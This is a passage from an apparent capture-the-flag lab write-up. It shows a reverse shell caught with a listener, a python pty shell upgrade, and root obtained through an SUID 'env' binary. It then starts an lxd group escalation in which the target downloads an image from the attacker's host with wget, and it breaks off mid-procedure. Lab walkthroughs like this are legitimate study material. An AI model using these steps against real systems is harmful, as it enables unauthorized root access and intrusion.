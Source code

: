```console
listening on [any] 6969 ...
connect to [10.11.14.220] from (UNKNOWN) [10.10.155.248] 55608
bash: cannot set terminal process group (1572): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$
```
now let spawn at TTY shell.
```console
namelessone@anonymous:~$ python -c 'import pty; pty.spawn("/bin/sh")'
$ id 
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
not that we cant run `sudo -l` since we dont have namelessone's password


There is 2 way to root this server
1. with [SUID](#root-with-suid)
2. with [lxd](#root-with-lxd)

# root with SUID
this way is easier that with lxd, so what do we do? Yes use amazing tool cal `suid3num.py` !! tranfer the script/tool to the victim server and run it
```

[#] SUID Binaries in GTFO bins list (Hell Yeah!)
------------------------------
/usr/bin/env -~> https://gtfobins.github.io/gtfobins/env/#suid
```
yep we can use `env` to escalate priv. check GTFObins for more info (the link). So what let run it
```console
$ env /bin/sh -p
env /bin/sh -p
# whoami
whoami
root
# cat /root/root.txt
```
# root with lxd
*namelessone* is a user of group `lxd` and we can use it to escalate priv. how to do that? you need to read more about it [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation) or [here](https://reboare.github.io/lxd/lxd-escape.html)..

let do it then.
```console
$ which wget
which wget
/usr/bin/wget
$ wget http://10.11.14.220:8000/alpine-v3.12-x86_64-20200728_1308.tar.gz
wget http://10.11.14.220:8000/alpine-v3.12-x86_64-20200728_1308.tar.gz
--2020-08-08 14:52:09--  http://10.11.14.220:8000/alpine-v3.12-x86_64-20200728_1308.tar.gz
Connecting to 10.11.14.220:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3198971 (3.0M) [application/gzip]
Saving to: ‘alpine-v3.12-x86_64-20200728_1308.tar.gz’

alpine-v3.12-x86_64 100%[===================>]   3.05M   993KB/s    in 3.1s    

2020-08-08 14:52:12 (993 KB/s) - ‘alpine-v3.12-x86_64-20200728_1308.tar.gz’ saved [3198971/3198971]

$ lxc image import alpine-v3.12-x86_64-20200728_1308.tar.gz --alias kurohat
lxc image import alpine-v3.12-x86_64-20200728_1308.tar.gz --alias kurohat
```